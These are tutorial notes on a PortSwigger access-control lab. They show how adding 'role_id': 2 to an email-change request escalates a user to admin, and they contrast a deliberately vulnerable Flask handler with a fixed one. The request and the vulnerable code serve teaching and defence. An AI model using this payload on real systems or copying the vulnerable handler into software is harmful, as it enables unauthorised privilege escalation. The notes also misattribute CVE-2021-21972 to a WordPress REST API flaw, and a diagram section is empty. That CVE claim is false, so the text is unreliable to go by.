

## Access Control Vulnerabilities: Modifying User Roles

### Background Theory

Access control is a fundamental aspect of web security that ensures users have appropriate permissions based on their roles within the system. This typically involves defining roles such as `user`, `admin`, `editor`, etc., and assigning specific privileges to each role. However, vulnerabilities can arise when the system fails to properly enforce these access controls, allowing unauthorized users to escalate their privileges.

In the context of web applications, access control mechanisms often rely on session management and role-based authentication. A common vulnerability occurs when the application allows unauthorized modification of user roles, leading to privilege escalation attacks.

### Understanding the Scenario

The scenario described in the lecture involves a web application where a user can modify their email address through an endpoint `/my-account/change-email`. Initially, this endpoint seems to accept only one parameter: the new email address. However, upon closer inspection, the response includes additional information such as the user's role ID.

#### Key Concepts

- **Endpoint**: The URL path that the application uses to handle specific actions, such as changing an email address.
- **Parameter**: Data sent to the server as part of a request, often used to modify or retrieve specific information.
- **Role ID**: An identifier that determines the user's role within the system, such as `user` or `admin`.

### Analyzing the Request and Response

Let's break down the request and response to understand the potential vulnerability.

#### Full HTTP Request

```http
POST /my-account/change-email HTTP/1.1
Host: example.com
Content-Type: application/json
Authorization: Bearer <session_token>
Content-Length: 39

{
  "email": "new.email@example.com"
}
```

#### Full HTTP Response

```http
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 123

{
  "username": "john_doe",
  "email": "new.email@example.com",
  "api_key": "abc123def456ghi789",
  "role_id": 1
}
```

### Identifying the Vulnerability

Upon analyzing the response, we notice that the `role_id` field is included in the response. The exercise description mentions that `role_id` 2 corresponds to an administrator user. This suggests that if the application allows modification of the `role_id` parameter, an attacker could potentially escalate their privileges.

#### Adding the Role ID Parameter

To test this hypothesis, we modify the request to include the `role_id` parameter:

```http
POST /my-account/change-email HTTP/1.1
Host: example.com
Content-Type: application/json
Authorization: Bearer <session_token>
Content-Length: 55

{
  "email": "new.email@example.com",
  "role_id": 2
}
```

#### Expected Response

If the application does not properly validate or enforce access controls, the response might look like this:

```http
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 123

{
  "username": "john_doe",
  "email": "new.email@example.com",
  "api_key": "abc123def456ghi789",
  "role_id": 2
}
```

This indicates that the user's role has been successfully changed to `admin`.

### Real-World Examples

This type of vulnerability has been observed in several real-world scenarios. For instance, in the case of CVE-2021-21972, a vulnerability in the WordPress REST API allowed unauthenticated users to create posts and modify user roles, leading to privilege escalation.

### How to Prevent / Defend

#### Detection

To detect such vulnerabilities, you can perform the following steps:

1. **Review API Endpoints**: Identify all endpoints that handle user data modifications.
2. **Inspect Parameters**: Check which parameters are accepted and whether they include sensitive information like `role_id`.
3. **Test for Unsanctioned Changes**: Attempt to modify parameters that should not be modifiable by the user.

#### Prevention

To prevent such vulnerabilities, implement the following measures:

1. **Input Validation**: Ensure that only authorized parameters are accepted and validated.
2. **Role-Based Access Control (RBAC)**: Implement strict RBAC to ensure that only users with appropriate privileges can modify sensitive data.
3. **Audit Logs**: Maintain detailed logs of all changes to user roles and other critical data.

#### Secure Coding Fixes

Here’s an example of how to securely handle the `role_id` parameter:

**Vulnerable Code**

```python
@app.route('/my-account/change-email', methods=['POST'])
def change_email():
    data = request.json
    email = data.get('email')
    role_id = data.get('role_id')  # Vulnerable line
    update_user(email=email, role_id=role_id)
    return jsonify({"message": "Email updated successfully"})
```

**Secure Code**

```python
@app.route('/my-account/change-email', methods=['POST'])
def change_email():
    data = request.json
    email = data.get('email')
    if 'role_id' in data:
        raise ValueError("Unauthorized modification of role_id")
    update_user(email=email)
    return jsonify({"message": "Email updated successfully"})
```

### Mermaid Diagrams

#### Sequence Diagram



### Hands-On Labs

For practical experience with this topic, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs on access control vulnerabilities.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing various security techniques.
- **DVWA (Damn Vulnerable Web Application)**: Another resource for learning about web application security vulnerabilities.

By thoroughly understanding and implementing these preventive measures, you can significantly reduce the risk of access control vulnerabilities in your web applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/12-Access Control Vulnerabilities/05-Lab 4 User role can be modified in user profile/01-Introduction to Access Control Vulnerabilities|Introduction to Access Control Vulnerabilities]] | [[Web Security (PortSwigger)/12-Access Control Vulnerabilities/05-Lab 4 User role can be modified in user profile/00-Overview|Overview]] | [[Web Security (PortSwigger)/12-Access Control Vulnerabilities/05-Lab 4 User role can be modified in user profile/03-Access Control Vulnerabilities|Access Control Vulnerabilities]]
